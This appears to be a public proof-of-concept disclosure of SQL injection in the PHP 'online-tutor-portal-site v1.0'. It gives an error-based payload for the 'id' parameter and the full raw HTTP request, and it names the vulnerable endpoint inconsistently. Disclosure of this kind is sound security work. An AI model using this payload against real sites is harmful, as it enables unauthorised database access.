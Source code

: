 # online-tutor-portal-site v1.0 has SQL injection

vendors: https://www.sourcecodester.com/php/15339/online-tutor-portal-site-phpopp-free-source-code.html

Date: 2022-05-07

Vulnerability File: /otps/classes/Master.php?f=delete_team

Vulnerability location:/otps/classes/Master.php?f=delete_course, id

[+] Payload: 2'and/**/extractvalue(1,concat(char(126),database()))and'

Tested on Windows 10, XAMPP

```
POST http://192.168.2.102/otps/classes/Master.php?f=delete_course HTTP/1.1
Host: 192.168.2.102
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en,zh-CN;q=0.8,zh;q=0.7,zh-TW;q=0.5,zh-HK;q=0.3,en-US;q=0.2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 60
Origin: http://192.168.2.102
Connection: close
Referer: http://192.168.2.102/otps/admin/?page=courses
Cookie: PHPSESSID=vpohrtulukshjgjlje1jbeavrj

id=2'and/**/extractvalue(1,concat(char(126),database()))and'
```

![](https://github.com/mikeccltt/0525/blob/main/online-tutor-portal-site/sql.gif?raw=true)

